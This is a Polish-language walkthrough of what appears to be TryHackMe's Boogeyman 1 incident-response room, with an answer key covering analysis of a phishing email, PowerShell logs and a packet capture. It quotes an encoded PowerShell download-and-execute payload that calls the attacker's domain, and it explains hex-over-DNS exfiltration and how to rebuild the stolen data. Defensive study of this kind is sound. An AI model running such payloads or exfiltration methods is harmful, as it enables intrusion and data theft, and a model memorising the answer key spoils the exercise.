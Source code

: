 **Boogeyman 1**
---

W boxie tym naszym zadaniem jest przeanalizowanie TTPs'a wykonanego na maszynie.
Całe zadanie zostało podzielone na 3 etapy
Etap1 - Analiza maila phishingowego
Etap2 - Analiza logów powershella
Etap3 - Analiza logów pakietów internetowych

<br>

**TASK 1**
---
**Q:** Let's hunt that boogeyman! <br>
>**W:** 

**A:** No answer needed

<br><br><br>

**TASK 2** 
---
**Q:** What is the email address used to send the phishing email? <br>
>**W:** Przechodzimy do folderu z artefaktami, znajdujemy plik dump.eml który otwieramy w aplikacji thunderbird mail. Informacje o nadawcy maila możemy uzyskać bez głębszego analizowania maila, wartość dla pola From:.

**A:** agriffin@bpakcaging.xyz

---

**Q:** What is the email address of the victim? <br>
>**W:** Informacje o odbiorcy maila możemy zauważyć bez glębszego analizowania maila, wartość dla pola To:.

**A:** julianne[.]westcott[@]hotmail[.]com <br>

---

**Q:** What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers? <br>
>**W:** Przechodzimy do More>Show Source, wyszukujemy pole DKIM-Signature, nazwa serwisu znajduje sie w polu p=. 

**A:** elasticemail <br>

---

**Q:** What is the name of the file inside the encrypted attachment? <br>
>**W:** Pobieramy załącznik i rozpakowywujemy go na spreparowanym sandboxie przy użyciu hasła zawartego w mailu. 

**A:** Invoice_20230103.lnk <br>

---

**Q:** What is the password of the encrypted attachment? <br>
>**W:** Hasło znajdujemy bezpośrednio w mailu. 

**A:** Invoice2023! <br>

---

**Q:** Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field? <br>
>**W:** Uruchamiamy cmd, przechodzimy na Desktop, wykonujemy komende lnkparse nazwa_pliku. Informacja o komendzie możemy dostrzec w polu Command line arguments po fladze -enc. 

**A:** aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA== <br><br><br>


**TASK 3**
---

**Q:** What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com) <br>
>**W:** Uruchamiamy cmd w folderze zawierajacym artefakt jsona, wykonujemy komende:
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq
W polu ScriptBlockText $s= możemy zauważyć pierwsza domene ktora posłużyła do ataku, następną domene możemy odczytać poniżej. 

**A:** cdn.bpakcaging.xyz,files.bpakcaging.xyz <br>

---

**Q:** What is the name of the enumeration tool downloaded by the attacker? <br>
>**W:** Nazwe pobranego narzędzia możemy dostrzec po uruchomieniu tej samej komendy, wyszukujemy w treści wartość .exe 

**A:** seatbelt <br>

---


**Q:** What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes. <br>
>**W:** W tym samym miejscu możemy odszukac wartosc zależne od sq3.exe, w tym sqlite. 

**A:** C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft. MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite <br>

---

**Q:** What is the software that uses the file in Q3? <br>
>**W:** W tym samym miejscu możemy zauważyć wiele wspomnień dla MicrosoftStickyNotes, również w tym gdzie plik wykonywalny został zapisany. 

**A:** Microsoft Sticky Notes <br>

---

**Q:** What is the name of the exfiltrated file? <br>
>**W:** W tym samym miejscu, szukamy gdzie dane mogłybyć zapisane, jest to jeden z końcowych etapów ataków więc informacji o tym szukamy na końcu logów.

**A:** protected_data.kdbx <br>

---

**Q:** What type of file uses the .kdbx file extension? <br>
>**W:** Informacje o tym możemy znaleść w zewnętrznych źródłach.

**A:** keepass <br>

---

**Q:** What is the encoding used during the exfiltration attempt of the sensitive file? <br>
>**W:** Informacje o tym możemy znaleść w miejscu gdzie dane są wysyłane, np w tym samym ciagu co metoda POST, odnajdujemy informacje o tym na poczatku, w polu ScriptBlockText $split = 

**A:** hex <br>

---

**Q:** What is the tool used for exfiltration? <br>
>**W:** W tym samym miejscu co kodowanie możemy znaleść informacje o narzędziach użytych do wysłania danych. 

**A:** nslookup <br><br><br>


**TASK4**
---

**Q:** What software is used by the attacker to host its presumed file/payload server? <br>

>**W:** Uruchamiamy capture.pcapng przy użyciu Wiresharka, wiemy nazwe pliku oraz to ze zawartosc zostala przeslana poprzez protokół http. Filtrujemy ruch poprzez filtr:
http contains "files.bpakcaging.xyz", dostrzegamy 5 pakietów. Przechodzimy na początek, prawy na pakiet, Follow > TCP Stream. Podążanie za potokiem pakietu z początku ataku pozwala na dokładną analizę komunikacji podczas ataku. W wartosc przesyłanych przez serwer w polu Server: możemy dostrzec oprogramowanie serwera 

**A:** python <br>

---

**Q:** What HTTP method is used by the C2 for the output of the commands executed by the attacker? <br>
>**W:** Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez POST'a

**A:** POST <br>

---

**Q:** What is the protocol used during the exfiltration activity? <br>
>**W:** Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez nslookup czyli protokół dns'a

**A:** dns <br>

---

**Q:** What is the password of the exfiltrated file? <br>
>**W:** W poprzednich zadaniach mogliśmy dostrzec plik sq3.exe który posłużył do zebrania danych z urządzenia.
Otwieramy Wiresharka oraz nasz plik pcapng, wyszukujemy pakietów które zawierają ten plik czyli filtr:
http contains "sq3.exe". Dostrzegamy 4 pakiety. Śledzimy Potok TCP pierwszego, możemy zauważyć, że numerem tego potoku jest 749, sprawdzamy co stało się następnie czyli dla potoku o numerze 750.
Dostrzegamy zakodowany ciąg liczbowy. Wprowadzamy ten ciąg do CyberChefa z wyszukiwaniem jakim algorytmem został zakodowany czyli operacja "Magic". Otrzymujemy entropie 5.33 dla kodowania From_Decimal('Space',false). Stosujemy tą operację zamiast Magic, uzyskujemy tym samym jawne dane, w tym hasło które posłużyło do zakodowania bazy danych. 

**A:** %p9^3!lL^Mz47E2GaT^y <br>

---

**Q:** What is the credit card number stored inside the exfiltrated file? <br>
>**W:** W celu uzyskania informacji o karcie, musimy odczytać tą zawartość z bazy danych. <br>
Możemy zastosować następującą komende w cmd:
tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'
która odczyta plik pcap, nałoży filtr dns a następnie odpowiednio podzieli dane tabel. Tak uzyskany ciąg tekstowy musimy odkodować z hexowego np w cyberchefie. Zapisując wyniki z cyberchefa w formie nazwapliku.kdbx pozwala na uzyskanie dostepu do bazy danych poprzez program KeePassX wraz z podaniem hasła które uzyskaliśmy w poprzednim pytaniu. 

**A:** 4024007128269551
